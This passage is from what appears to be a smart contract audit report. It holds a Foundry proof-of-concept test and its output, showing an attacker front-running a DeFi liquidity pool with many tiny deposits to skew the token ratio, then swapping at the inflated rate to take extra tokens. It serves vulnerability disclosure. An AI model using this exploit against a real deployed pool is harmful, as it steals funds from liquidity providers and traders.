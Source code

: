 ```js
		
		
		// revert to the state of saved snapshot
		vm.revertTo(snapshot);
		// ******************************* CASE-2 : ATTACK SCENARIO; WITH FRONT-RUN ATTACK **************************************
		// 1. Front-running by Bob
		vm.startPrank(bob);
		for (uint256 i; i<99; i++) {
			skip(1 hours); // cooldown  <---------- // @audit-info : This is ONLY for ease of PoC. In an actual attack, Bob would use multiple different accounts to bypass the cooling period.
			collateralAndLiquidity.depositLiquidityAndIncreaseShare( token1, token2, 101, 101, 0 ether, block.timestamp, false );
		}
		vm.stopPrank();
		assertEq(token2.balanceOf(address(pools)), initialToken2BalanceInPool, "token2 was actually added"); // @audit : bug: Bob did not spend any token2 amount at all
		console.log("\nCase-2:\nNew ratio of token1 : token2 is %s : 1", token1.balanceOf( address(pools)) / token2.balanceOf( address(pools))); // 200:1
		
		// 2. alice now adds liquidity
		assertEq(collateralAndLiquidity.userShareForPool(alice, pool1), 0, "Alice's initial liquidity share should be zero");
		// she expected a ratio of 202:2 = 101:1
		alice_addedAmount1 = 200 ether;
		alice_addedAmount2 = 2 ether; 

		vm.prank(alice);
		(alice_addedAmountA, alice_addedAmountB,) = collateralAndLiquidity.depositLiquidityAndIncreaseShare( token1, token2, alice_addedAmount1, alice_addedAmount2, 0 ether, block.timestamp, false );
		assertEq(alice_addedAmountA, alice_addedAmount1, "all of Alice's token1 not added");
		assertApproxEqAbs(alice_addedAmountB / 1e17, 10, 1, "Alice's token2 incorrect amount spent"); // @audit : only half of tokens actually spent due to ratio skewed by Bob's front-running

		// Bob swaps at this artificially jacked-up exchanged-rate. inToken = token2, outToken = token1
		vm.prank(bob);
		uint256 amountOutAfterAttack = pools.depositSwapWithdraw( token2, token1, 1 ether, 0, block.timestamp );
		console.log("swapped out token1 amount by Bob for 1 ether of token2 ", amountOutAfterAttack);
		
		console.log("\nExtra token1 amount stolen by Bob in the attack =", amountOutAfterAttack - amountOut);
		assertGt(amountOutAfterAttack - amountOut, 0, "nothing stolen");
		// ******************************* CASE-2 ENDS **************************************
	}
}
```

Output:
```text
[PASS] test_bug_sandwich_liquidity() (gas: 10840362)
Logs:

Case-1:
Original ratio of token1 : token2 is 101 : 1
  swapped out token1 amount by Bob for 1 ether of token2 = 67337733629590904299

Case-2:
New ratio of token1 : token2 is 200 : 1
  swapped out token1 amount by Bob for 1 ether of token2 = 100002475186257770959

Extra token1 amount stolen by Bob in the attack = 32664741556666866660
```